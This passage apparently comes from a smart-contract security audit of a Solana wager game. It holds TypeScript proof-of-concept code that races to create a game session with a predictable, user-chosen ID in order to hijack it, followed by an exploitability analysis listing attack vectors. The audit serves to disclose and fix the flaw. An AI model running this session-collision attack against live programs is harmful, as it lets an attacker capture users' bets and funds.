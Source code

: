 ```typescript
        // 1. Monitor for session creation attempts
        // 2. Quickly create collision session when detected

        try {
            // Race to create session with same ID
            await this.wagerProgram.methods
                .createGameSession(
                    targetSessionId,
                    100, // Lower bet to attract users
                    GameMode.WinnerTakesAllFiveVsFive
                )
                .accounts({
                    gameSession: this.getSessionPDA(targetSessionId),
                    gameServer: this.attackerKeypair.publicKey,
                    // ... other accounts
                })
                .signers([this.attackerKeypair])
                .rpc();

            console.log(`Successfully hijacked session: ${targetSessionId}`);
        } catch (error) {
            console.log(`Hijack attempt failed: ${error}`);
        }
    }

    private getSessionPDA(sessionId: string): PublicKey {
        // Same derivation as legitimate sessions
        const [pda] = PublicKey.findProgramAddressSync(
            [
                Buffer.from("game_session"),
                Buffer.from(sessionId, "utf8")
            ],
            this.wagerProgram.programId
        );
        return pda;
    }
}
```

## ⚡ Exploitability Analysis

**Likelihood**: High (user-controlled IDs are inherently predictable)
**Complexity**: Low (simple ID prediction and duplication)
**Prerequisites**:
- Basic understanding of session creation
- Ability to predict common ID patterns
- Fast transaction execution capability

**Attack Vectors**:
- [x] **Predictable ID pattern exploitation**
- [x] **Session hijacking through collision**
- [x] **Pre-emptive session creation**
- [x] **User confusion through duplicate sessions**
